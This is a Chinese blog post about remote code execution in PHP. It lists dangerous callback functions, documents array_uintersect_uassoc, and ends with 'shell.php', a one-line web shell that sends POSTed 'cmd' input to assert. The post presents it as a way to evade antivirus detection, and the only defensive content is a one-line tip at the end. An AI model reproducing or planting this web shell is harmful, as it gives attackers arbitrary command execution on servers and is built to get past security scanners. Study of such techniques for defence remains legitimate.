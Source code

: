 ```yaml
---
layout: post
title:  "远程命令执行漏洞"
categories: Remote code execution
tags:  Remote 一句话木马
author: Hannoch
---
```


* content
{:toc}

# 前言
	远程命令执行漏洞，用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变$PATH（变量）或程序执行环境的其他方面来执行一个恶意构造的代码。来源：百度百科
# 远程代码执行原理
	客户端向服务器发送恶意请求，该请求内容中有服务器端可执行的代码，服务器端接收请求后未
对来源数据做出过滤/拦截操作，从而造成代码执行漏洞。

# 远程代码执行常见点

```php
eval()
preg_replace("//e",$_GET['h'],"");
array_map()
usort(),uasort(),uksort()
array_filter()
array_reduce()
array_diff_uassoc(),array_diff_ukey()
array_udiff(),array_udiff_assoc(),
array_udiff_uassoc()
array_intersect_assoc(),array_intersect_uassoc()
array_uintersect(),array_uintersect_assoc(),
array_uintersect_uassoc()
array_walk(),array_walk_recursive()
xml_set_character_data_handler()
xml_set_default_handler()
xml_set_element_handler()
ob_start()
unserialize()
xml_set_end_namespace_decl_handler()
xml_set_external_entity_ref_handler()
xml_set_notation_decl_handler()
xml_set_processing_instruction_handler()
xml_set_start_namespace_decl_handler()
xml_set_unparsed_entity_decl_handler()
stream_filter_register()
set_error_handler()
register_shutdown_function()
register_tick_function()
assert()
```

# 生僻函数免杀一句话
[PHP array_uintersect_uassoc() 函数](http://www.w3school.com.cn/php/func_array_uintersect_uassoc.asp)
比较两个数组的键名和键值（使用用户自定义函数进行比较），并返回交集（匹配）：

```php
<?php
function myfunction_key($a,$b)
{
if ($a===$b)
  {
  return 0;
  }
  return ($a>$b)?1:-1;
}

function myfunction_value($a,$b)
{
if ($a===$b)
  {
  return 0;
  }
  return ($a>$b)?1:-1;
}

$a1=array("a"=>"red","b"=>"green","c"=>"blue");
$a2=array("a"=>"red","b"=>"green","c"=>"green");

$result=array_uintersect_uassoc($a1,$a2,"myfunction_key","myfunction_value");
print_r($result);
?>
```
语法
`array_uintersect_uassoc(array1,array2,array3...,myfunction_key,myfunction_value)`
参数	描述
**array1** 必需。与其他数组进行比较的第一个数组。
**array2**	必需。与第一个数组进行比较的数组。
**array3,...**	可选。与第一个数组进行比较的其他数组。
** myfunction_key ** 必需。用于比较数组键名的用户自定义函数的名称。

定义可调用的比较函数。如果第一个参数小于等于或大于第二个参数，则比较函数必须返回小于等于或大于 0 的整数。

** myfunction_value ** 必需。用于比较数组键值的用户自定义函数的名称。

定义可调用的比较函数。如果第一个参数小于等于或大于第二个参数，则比较函数必须返回小于等于或大于 0 的整数。

使用用户自定义的回调函数 myfunction_key 和 myfunction_value 来计算两个或多个数组的交集（即在 array1 中存在，同时也在其它任何数组中存在的所有数组元素），并返回结果数组。

同时进行键名和键值的比较，如 "a"=>1 和 "b"=>1 这两个元素是不相等的。

myfunction_key 指定的函数用于比较键名是否相等。myfunction_value 指定的函数用于比较键值是否相等。这两个函数都带有两个将进行比较的参数。如果第一个参数小于第二个参数，则函数返回一个负数，如果两个参数相等，则要返回 0，如果第一个参数大于第二个，则返回一个正数。

返回的数组中键名保持不变。

生成我们的一句话木马
shell.php
```php
$a1=array($_POST['cmd']);
$a2=array($_POST['cmd']);
$result=array_uintersect_uassoc($a1,$a2,"assert","assert");
```

防护：在开发中尽量不要使用危险函数，输入的变量一定要进行过滤。
